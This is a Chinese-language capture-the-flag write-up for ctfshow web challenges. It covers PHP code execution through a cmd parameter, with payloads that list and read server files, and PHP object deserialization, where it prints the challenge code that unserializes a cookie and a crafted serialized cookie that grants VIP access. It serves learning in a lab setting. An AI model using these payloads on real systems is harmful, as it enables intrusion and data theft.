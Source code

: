 ## ctfshow web12
考察:命令执行
知识点:
```
glob() 函数返回匹配指定模式的文件名或目录。
举个例子:
glob("*") 匹配任意文件
glob("*.txt")匹配以txt为后缀的文件
```

查看网页源代码发现 ?cmd
![图片](https://user-images.githubusercontent.com/81904597/113653035-9822ae00-96c7-11eb-9fbe-2ee06d317b0c.png)
目测考察命令执行
输出一下phpinfo()
```
?cmd=phpinfo();
```
里面禁用了很多函数
![图片](https://user-images.githubusercontent.com/81904597/113653163-e172fd80-96c7-11eb-88c1-a5df058909e2.png)

查看一下目录的文件(两种方式)
```
?cmd=print_r(scandir('.'));
?cmd=print_r(glob("*"));
```
![图片](https://user-images.githubusercontent.com/81904597/113653282-1ed78b00-96c8-11eb-9319-97b2312427af.png)
利用下面的让代码显示一下即可
```
highlight_file()
show_source()
```
参考yu师傅博客:https://blog.csdn.net/miuzzx/article/details/104372662


##ctfshow 反序列化刷题
### 魔术方法
```

    __construct()当一个对象创建时被调用(构造函数)

    __destruct()当一个对象销毁时被调用(析构函数)

    __toString()当一个对象被当作一个字符串使用

    __sleep() 在对象在被序列化之前运行

    __wakeup将在序列化之后立即被调用所写的内容需要有对象中的成员
    
```

web254
```

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        if($this->username===$u&&$this->password===$p){
            $this->isVip=true;
        }
        return $this->isVip;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}
$username=$_GET['username'];
$password=$_GET['password'];
if(isset($username) && isset($password)){
    $user = new ctfShowUser();
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
} 

```

```

?username=xxxxxx&password=xxxxxx

```

web255

```

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}
$username=$_GET['username'];
$password=$_GET['password'];
if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
} 
```

```

<?php
class ctfShowUser{
    public $isVip=true;
    
}
echo serialize(new ctfShowUser);
要对反序列化后的;进行url编码
#user=O:11:"ctfShowUser":1:{s:5:"isVip"%3bb:1%3b}
```
